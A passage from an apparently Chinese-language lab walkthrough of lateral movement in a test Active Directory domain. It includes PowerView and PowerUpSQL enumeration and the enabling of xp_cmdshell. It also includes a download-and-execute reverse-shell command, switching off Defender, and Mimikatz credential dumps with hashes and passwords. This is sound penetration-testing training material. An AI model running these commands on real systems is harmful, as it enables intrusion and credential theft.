         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        kerberos :
         * Username : CLIENT1$
         * Domain   : offensive.local
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        ssp :
        credman :

Authentication Id : 0 ; 32434 (00000000:00007eb2)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : CLIENT1$
         * Domain   : offensive
         * NTLM     : c80cdf882f4efbfbfd9ef36f20e3e145
         * SHA1     : e0ad452a6852e39cc970ee6a75d2d887b713dc01
        tspkg :
        wdigest :
         * Username : CLIENT1$
         * Domain   : offensive
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        kerberos :
         * Username : CLIENT1$
         * Domain   : offensive.local
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        ssp :
        credman :

Authentication Id : 0 ; 31523 (00000000:00007b23)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               :
        msv :
         [00000003] Primary
         * Username : CLIENT1$
         * Domain   : offensive
         * NTLM     : c80cdf882f4efbfbfd9ef36f20e3e145
         * SHA1     : e0ad452a6852e39cc970ee6a75d2d887b713dc01
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CLIENT1$
Domain            : offensive
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : CLIENT1$
         * Domain   : offensive
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        kerberos :
         * Username : client1$
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :
```
提取关键信息：
```
CLIENT1$:c80cdf882f4efbfbfd9ef36f20e3e145
offensive\Alice:admin@123
offensive\Alice:579da618cfbfa85247acf1f800a280a4
```
PowerView的模块
```
Get-NetDomain               #查看域名称
Get-NetDomainController     #获取域控的信息
Get-NetForest               #查看域内详细的信息
Get-Netuser                 #获取域内所有用户的详细信息
Get-NetUser | select name   #获得域内所有用户名
Get-NetGroup        #获取域内所有组信息
Get-NetGroup | select name  #获取域内所有的组名
Get-NetGroup *admin* | select name   #获得域内组中带有admin的
Get-NetGroup "Domain Admins"         #查看组"Domain Admins"组的信息
Get-NetGroup -UserName test   #获得域内组中用户test的信息
 
Get-UserEvent        #获取指定用户日志信息
Get-NetComputer             #获取域内所有机器的详细信息
Get-NetComputer | select name   #获得域内主机的名字
Get-Netshare                #获取本机的网络共享
Get-NetProcess              #获取本机进程的详细信息
Get-NetOU                #获取域内OU信息
Get-NetFileServer      #根据SPN获取当前域使用的文件服务器
Get-NetSession         #获取在指定服务器存在的Session信息
Get-NetRDPSESSION           #获取本机的RDP连接session信息
Get-NetGPO           #获取域内所有组策略对象
Get-ADOBJECT                #获取活动目录的信息
Get-DomainPolicy       #获取域默认策略
 
Invoke-UserHunter           #查询指定用户登录过的机器
Invoke-EnumerateLocalAdmin  #枚举出本地的管理员信息
Invoke-ProcessHunter        #判断当前机器哪些进程有管理员权限
Invoke-UserEventHunter    #根据用户日志获取某域用户登陆过哪些域机器
```
查询到以下的信息
```
域控：
dc.offensive.local => 192.168.159.200
域成员机：
SQL1.offensive.local  => 192.168.159.20
Client1.offensive.local   => 192.168.159.10
域管理员：
Administrator  S-1-5-21-1187620287-4058297830-2395299116-500
dbadmin 	   S-1-5-21-1187620287-4058297830-2395299116-1105
域成员：
Alice	S-1-5-21-1187620287-4058297830-2395299116-1103
dbuser1	S-1-5-21-1187620287-4058297830-2395299116-1104
```
## 横向渗透-发现域中的SQL server实例

```
PS C:\Users\Alice\Desktop\tools\PowerUpSQL>  powershell -exec bypass -Command "Import-Module .\PowerUpsQL.ps1; Get-SQLInstanceDomain"


ComputerName     : SQL1.offensive.local
Instance         : SQL1.offensive.local,1433
DomainAccountSid : 150000052100019116520170230181228241449319714281400
DomainAccount    : dbadmin
DomainAccountCn  : dbadmin
Service          : MSSQLSvc
Spn              : MSSQLSvc/SQL1.offensive.local:1433
LastLogon        : 9/20/2023 6:29 AM
Description      :

ComputerName     : SQL1.offensive.local
Instance         : SQL1.offensive.local\SQLEXPRESS
DomainAccountSid : 150000052100019116520170230181228241449319714281400
DomainAccount    : dbadmin
DomainAccountCn  : dbadmin
Service          : MSSQLSvc
Spn              : MSSQLSvc/SQL1.offensive.local:SQLEXPRESS
LastLogon        : 9/20/2023 6:29 AM
Description      :

ComputerName     : Offensive-SQL1.offensive.local
Instance         : Offensive-SQL1.offensive.local,1433
DomainAccountSid : 150000052100019116520170230181228241449319714281400
DomainAccount    : dbadmin
DomainAccountCn  : dbadmin
Service          : MSSQLSvc
Spn              : MSSQLSvc/Offensive-SQL1.offensive.local:1433
LastLogon        : 9/20/2023 6:29 AM
Description      :

ComputerName     : Offensive-SQL1.offensive.local
Instance         : Offensive-SQL1.offensive.local\SQLEXPRESS
DomainAccountSid : 150000052100019116520170230181228241449319714281400
DomainAccount    : dbadmin
DomainAccountCn  : dbadmin
Service          : MSSQLSvc
Spn              : MSSQLSvc/Offensive-SQL1.offensive.local:SQLEXPRESS
LastLogon        : 9/20/2023 6:29 AM
Description      :

ComputerName     : Offensive-SQL1
Instance         : Offensive-SQL1,1433
DomainAccountSid : 150000052100019116520170230181228241449319714280400
DomainAccount    : dbuser1
DomainAccountCn  : dbuser1
Service          : MSSQLSvc
Spn              : MSSQLSvc/Offensive-SQL1:1433
LastLogon        : 8/31/2019 11:29 PM
Description      :
```

## 横向渗透-枚举域内数据库访问情况

列出数据库访问实例，以及实例是否可以访问，"Accessible"表示连接是可访问的

```
PS C:\Users\Alice\Desktop\tools\PowerUpSQL> powershell -exec bypass -Command "Import-Module .\PowerUpsQL.ps1; Get-SQLInstanceDomain | Get-SQLConnectionTest"

ComputerName                   Instance                                  Status
------------                   --------                                  ------
SQL1.offensive.local           SQL1.offensive.local,1433                 Accessible
SQL1.offensive.local           SQL1.offensive.local\SQLEXPRESS           Accessible
Offensive-SQL1.offensive.local Offensive-SQL1.offensive.local,1433       Accessible
Offensive-SQL1.offensive.local Offensive-SQL1.offensive.local\SQLEXPRESS Accessible
Offensive-SQL1                 Offensive-SQL1,1433                       Accessible
```

## 横向渗透-枚举当前服务的详细信息

获取更详细的数据库信息

```
PS C:\Users\Alice\Desktop\tools\PowerUpSQL> powershell -exec bypass -Command "Import-Module .\PowerUpsQL.ps1; Get-SQLServerInfo -Instance Offensive-SQL1"


ComputerName           : Offensive-SQL1
Instance               : OFFENSIVE-SQL1\SQLEXPRESS
DomainName             : offensive
ServiceProcessID       : 2744
ServiceName            : MSSQL$SQLEXPRESS
ServiceAccount         : offensive\dbadmin
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 14.0.1000.169
SQLServerMajorVersion  : 2017
SQLServerEdition       : Express Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter Evaluation
OsVersionNumber        : SQL
Currentlogin           : OFFENSIVE\Alice
IsSysadmin             : Yes
ActiveSessions         : 1

```
通过`Currentlogin`可发现Offensive-SQL1当前的登录用户为：Alice

## 横向渗透-扫描该数据库服务可能出现的问题

```
PS C:\Users\Alice\Desktop\tools\PowerUpSQL> powershell -exec bypass -Command "Import-Module .\PowerUpsQL.ps1; Invoke-SQLAudit -Instance Offensive-SQL1 -verbose"
VERBOSE: LOADING VULNERABILITY CHECKS.
VERBOSE: RUNNING VULNERABILITY CHECKS.
VERBOSE: Offensive-SQL1 : RUNNING VULNERABILITY CHECKS...
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Default SQL Server Login Password
VERBOSE: Offensive-SQL1 : No named instance found.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Default SQL Server Login Password
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Weak Login Password
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 - Getting supplied login...
VERBOSE: Offensive-SQL1 - Getting list of logins...
VERBOSE: Offensive-SQL1 - Performing dictionary attack...
VERBOSE: Offensive-SQL1 - Failed Login: User = sa Password = sa
VERBOSE: Offensive-SQL1 - Failed Login: User = ##MS_PolicyEventProcessingLogin## Password =
##MS_PolicyEventProcessingLogin##
VERBOSE: Offensive-SQL1 - Failed Login: User = ##MS_PolicyTsqlExecutionLogin## Password =
##MS_PolicyTsqlExecutionLogin##
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Weak Login Password
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 : - No logins could be impersonated.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 : - No exploitable SQL Server links were found.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Excessive Privilege - Trusted Database
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 : - No non-default trusted databases were found.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Trusted Database
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Excessive Privilege - Database Ownership Chaining
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 : - The database master has ownership chaining enabled.
VERBOSE: Offensive-SQL1 : - The database tempdb has ownership chaining enabled.
VERBOSE: Offensive-SQL1 : - The database msdb has ownership chaining enabled.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Database Ownership Chaining
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: PERMISSION - CREATE PROCEDURE
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS
VERBOSE: Offensive-SQL1 : Grabbing permissions for the master database...
VERBOSE: Offensive-SQL1 : Grabbing permissions for the tempdb database...
VERBOSE: Offensive-SQL1 : Grabbing permissions for the model database...
VERBOSE: Offensive-SQL1 : Grabbing permissions for the msdb database...
VERBOSE: Offensive-SQL1 : - The current login doesn't have the CREATE PROCEDURE permission in any databases.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: PERMISSION - CREATE PROCEDURE
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Excessive Privilege - xp_dirtree
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 : - At least one principal has EXECUTE privileges on xp_dirtree.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - XP_DIRTREE
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Excessive Privilege - xp_fileexist
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS.
VERBOSE: Offensive-SQL1 : - The  principal has EXECUTE privileges on xp_fileexist.
VERBOSE: Offensive-SQL1 : - You do not have Administrator rights. Run this function as an Administrator in order to
load Inveigh.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - xp_fileexist
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: DATABASE ROLE - DB_DDLAMDIN
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: DATABASE ROLE - DB_DDLADMIN
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: DATABASE ROLE - DB_OWNER
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: DATABASE ROLE - DB_OWNER
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: SEARCH DATA BY COLUMN
VERBOSE: Offensive-SQL1 : CONNECTION SUCCESS
VERBOSE: Offensive-SQL1 : - Searching for column names that match criteria...
VERBOSE: Offensive-SQL1 : - No columns were found that matched the search.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: SEARCH DATA BY COLUMN
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Potential SQL Injection - EXECUTE AS OWNER
VERBOSE: Offensive-SQL1 : Connection Success.
VERBOSE: Offensive-SQL1 : Checking databases below for vulnerable stored procedures:
VERBOSE: Offensive-SQL1 : - Checking master database...
VERBOSE: Offensive-SQL1 : - 0 found in master database
VERBOSE: Offensive-SQL1 : - Checking tempdb database...
VERBOSE: Offensive-SQL1 : - 0 found in tempdb database
VERBOSE: Offensive-SQL1 : - Checking model database...
VERBOSE: Offensive-SQL1 : - 0 found in model database
VERBOSE: Offensive-SQL1 : - Checking msdb database...
VERBOSE: Offensive-SQL1 : - 0 found in msdb database
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Potential SQL Injection - EXECUTE AS OWNER
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Potential SQL Injection - Signed by Certificate Login
VERBOSE: Offensive-SQL1 : Connection Success.
VERBOSE: Offensive-SQL1 : Checking databases below for vulnerable stored procedures:
VERBOSE: Offensive-SQL1 : - Checking master database...
VERBOSE: Offensive-SQL1 : - 0 found in master database
VERBOSE: Offensive-SQL1 : - Checking tempdb database...
VERBOSE: Offensive-SQL1 : - 0 found in tempdb database
VERBOSE: Offensive-SQL1 : - Checking model database...
VERBOSE: Offensive-SQL1 : - 0 found in model database
VERBOSE: Offensive-SQL1 : - Checking msdb database...
VERBOSE: Offensive-SQL1 : - 0 found in msdb database
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK: Potential SQL Injection - Signed by Certificate Login
VERBOSE: Offensive-SQL1 : START VULNERABILITY CHECK: Excessive Privilege - Auto Execute Stored Procedure
VERBOSE: Offensive-SQL1 : Connection Success.
VERBOSE: Offensive-SQL1 : Checking for autoexec stored procedures...
VERBOSE: Offensive-SQL1 : No stored procedures were found configured to auto execute.
VERBOSE: Offensive-SQL1 : COMPLETED VULNERABILITY CHECK.
VERBOSE: COMPLETED ALL VULNERABILITY CHECKS.


ComputerName  : Offensive-SQL1
Instance      : Offensive-SQL1
Vulnerability : Excessive Privilege - Database Ownership Chaining
Description   : Ownership chaining was found enabled at the server or database level.  Enabling ownership chaining can
                lead to unauthorized access to database resources.
Remediation   : Configured the affected database so the 'is_db_chaining_on' flag is set to 'false'.  A query similar
                to 'ALTER DATABASE Database1 SET DB_CHAINING ON' is used enable chaining.  A query similar to 'ALTER
                DATABASE Database1 SET DB_CHAINING OFF;' can be used to disable chaining.
Severity      : Low
IsVulnerable  : Yes
IsExploitable : No
Exploited     : No
ExploitCmd    : There is not exploit available at this time.
Details       : The database master was found configured with ownership chaining enabled.
Reference     : https://technet.microsoft.com/en-us/library/ms188676(v=sql.105).aspx,https://msdn.microsoft.com/en-us/l
                ibrary/bb669059(v=vs.110).aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016

ComputerName  : Offensive-SQL1
Instance      : Offensive-SQL1
Vulnerability : Excessive Privilege - Database Ownership Chaining
Description   : Ownership chaining was found enabled at the server or database level.  Enabling ownership chaining can
                lead to unauthorized access to database resources.
Remediation   : Configured the affected database so the 'is_db_chaining_on' flag is set to 'false'.  A query similar
                to 'ALTER DATABASE Database1 SET DB_CHAINING ON' is used enable chaining.  A query similar to 'ALTER
                DATABASE Database1 SET DB_CHAINING OFF;' can be used to disable chaining.
Severity      : Low
IsVulnerable  : Yes
IsExploitable : No
Exploited     : No
ExploitCmd    : There is not exploit available at this time.
Details       : The database tempdb was found configured with ownership chaining enabled.
Reference     : https://technet.microsoft.com/en-us/library/ms188676(v=sql.105).aspx,https://msdn.microsoft.com/en-us/l
                ibrary/bb669059(v=vs.110).aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016

ComputerName  : Offensive-SQL1
Instance      : Offensive-SQL1
Vulnerability : Excessive Privilege - Database Ownership Chaining
Description   : Ownership chaining was found enabled at the server or database level.  Enabling ownership chaining can
                lead to unauthorized access to database resources.
Remediation   : Configured the affected database so the 'is_db_chaining_on' flag is set to 'false'.  A query similar
                to 'ALTER DATABASE Database1 SET DB_CHAINING ON' is used enable chaining.  A query similar to 'ALTER
                DATABASE Database1 SET DB_CHAINING OFF;' can be used to disable chaining.
Severity      : Low
IsVulnerable  : Yes
IsExploitable : No
Exploited     : No
ExploitCmd    : There is not exploit available at this time.
Details       : The database msdb was found configured with ownership chaining enabled.
Reference     : https://technet.microsoft.com/en-us/library/ms188676(v=sql.105).aspx,https://msdn.microsoft.com/en-us/l
                ibrary/bb669059(v=vs.110).aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016

ComputerName  : Offensive-SQL1
Instance      : Offensive-SQL1
Vulnerability : Excessive Privilege - Execute xp_dirtree
Description   : xp_dirtree is a native extended stored procedure that can be executed by members of the Public role by
                default in SQL Server 2000-2014. Xp_dirtree can be used to force the SQL Server service account to
                authenticate to a remote attacker.  The service account password hash can then be captured + cracked
                or relayed to gain unauthorized access to systems. This also means xp_dirtree can be used to escalate
                a lower privileged user to sysadmin when a machine or managed account isnt being used.  Thats because
                the SQL Server service account is a member of the sysadmin role in SQL Server 2000-2014, by default.
Remediation   : Remove EXECUTE privileges on the XP_DIRTREE procedure for non administrative logins and roles.
                Example command: REVOKE EXECUTE ON xp_dirtree to Public
Severity      : Medium
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : No
ExploitCmd    : Crack the password hash offline or relay it to another system.
Details       : The public principal has EXECUTE privileges on the xp_dirtree procedure in the master database.
Reference     : https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/
Author        : Scott Sutherland (@_nullbind), NetSPI 2016

ComputerName  : Offensive-SQL1
Instance      : Offensive-SQL1
Vulnerability : Excessive Privilege - Execute xp_fileexist
Description   : xp_fileexist is a native extended stored procedure that can be executed by members of the Public role
                by default in SQL Server 2000-2014. Xp_dirtree can be used to force the SQL Server service account to
                authenticate to a remote attacker.  The service account password hash can then be captured + cracked
                or relayed to gain unauthorized access to systems. This also means xp_dirtree can be used to escalate
                a lower privileged user to sysadmin when a machine or managed account isnt being used.  Thats because
                the SQL Server service account is a member of the sysadmin role in SQL Server 2000-2014, by default.
Remediation   : Remove EXECUTE privileges on the xp_fileexist procedure for non administrative logins and roles.
                Example command: REVOKE EXECUTE ON xp_fileexist to Public
Severity      : Medium
IsVulnerable  : Yes
IsExploitable : No
Exploited     : No
ExploitCmd    : Crack the password hash offline or relay it to another system.
Details       : The public principal has EXECUTE privileges on xp_fileexist procedure in the master database.
Reference     : https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
```
通过阅读`Vulnerability`发现存在可利用的脆弱点：`Excessive Privilege - Execute xp_dirtree`

## 横向渗透-xp_dirtree 列出主机中的文件

xp_dirtree： 用于显示当前目录的子目录

xp_dirtree有三个参数：

1. 要列的目录
2. 是否要列出子目录下的所有文件和文件夹，默认为0，如果不需要设置为1
3. 是否需要列出文件，默认为不列，如果需要列文件设置为1

```
#列出当前目录下所有的文件和文件夹
xp_dirtree 'c:\', 1, 1 
```



貌似此漏洞的危害只有列出主机中的文件。

## 横向渗透-xp_cmdshell一把梭

使用之前工具中给出的`Heidi.exe`



开启`xp_cmdshell`

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
EXEC master..xp_cmdshell 'whoami'
```



此时拿到了`offensive\dbadmin`用户的权限

## 横向渗透-反向shell

`offensive\Alice`将Powercat打开监听

```
Import-Module .\powercat.ps1
powercat -l -v -p 443
```

并且将`Invoke-PowerShellTcpOneLine_443.ps1`放在`hfs.exe`中



在`Heidi.exe`中运行

```
EXEC master..xp_cmdshell 'powershell "iex(New-Object Net.WebClient).DownloadString(''http://192.168.159.10/Invoke-PowerShellTcpOneLine_443.ps1'')"'
```

shell接收成功




## 横向渗透-Mimikatz抓取密码

关闭Windows Defender

```
Set-MpPreference-disablerealtimeMonitoring $true
```

将mimikatz添加进HFS，然后下载并运行

```
certutil -urlcache -f -split http://192.168.159.10/mimikatz.exe 
mimikatz.exe .\mimikatz.exe"privilege::debug" "sekurlsa::logonpasswords" exit
```

获取到的密码

```
PS C:\Windows\system32> certutil -urlcache -f -split http://192.168.159.10/mimikatz.exe
****  Online  ****
  000000  ...
  0e2698
CertUtil: -URLCache command completed successfully.
PS C:\Windows\system32> mimikatz.exe .\mimikatz.exe"privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # .\mimikatz.exeprivilege::debug
ERROR mimikatz_doLocal ; ".\mimikatz.exeprivilege" module not found !

        standard  -  Standard module  [Basic commands (does not require module name)]
          crypto  -  Crypto Module
        sekurlsa  -  SekurLSA module  [Some commands to enumerate credentials...]
        kerberos  -  Kerberos package module  []
       privilege  -  Privilege module
         process  -  Process module
         service  -  Service module
         lsadump  -  LsaDump module
              ts  -  Terminal Server module
           event  -  Event module
            misc  -  Miscellaneous module
           token  -  Token manipulation module
           vault  -  Windows Vault/Credential module
     minesweeper  -  MineSweeper module
             net  -
           dpapi  -  DPAPI Module (by API or RAW access)  [Data Protection application programming interface]
       busylight  -  BusyLight Module
          sysenv  -  System Environment Value module
             sid  -  Security Identifiers module
             iis  -  IIS XML Config module
             rpc  -  RPC control of mimikatz
            sr98  -  RF module for SR98 device and T5577 target
             rdm  -  RF module for RDM(830 AL) device
             acr  -  ACR Module

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 192818 (00000000:0002f132)
Session           : Interactive from 1
User Name         : dbadmin
Domain            : offensive
Logon Server      : DC
Logon Time        : 9/20/2023 6:29:49 AM
SID               : S-1-5-21-1187620287-4058297830-2395299116-1105
        msv :
         [00000003] Primary
         * Username : dbadmin
         * Domain   : offensive
         * NTLM     : 579da618cfbfa85247acf1f800a280a4
         * SHA1     : 39f572eceeaa2174e87750b52071582fc7f13118
         * DPAPI    : 37eea036fd176a12c4ff3b248a3ac97a
        tspkg :
        wdigest :
         * Username : dbadmin
         * Domain   : offensive
         * Password : admin@123
        kerberos :
         * Username : dbadmin
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 102432 (00000000:00019020)
Session           : Service from 0
User Name         : dbadmin
Domain            : offensive
Logon Server      : DC
Logon Time        : 9/20/2023 6:29:41 AM
SID               : S-1-5-21-1187620287-4058297830-2395299116-1105
        msv :
         [00000003] Primary
         * Username : dbadmin
         * Domain   : offensive
         * NTLM     : 579da618cfbfa85247acf1f800a280a4
         * SHA1     : 39f572eceeaa2174e87750b52071582fc7f13118
         * DPAPI    : 37eea036fd176a12c4ff3b248a3ac97a
        tspkg :
        wdigest :
         * Username : dbadmin
         * Domain   : offensive
         * Password : admin@123
        kerberos :
         * Username : dbadmin
         * Domain   : OFFENSIVE.LOCAL
         * Password : admin@123
        ssp :
        credman :

Authentication Id : 0 ; 40041 (00000000:00009c69)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
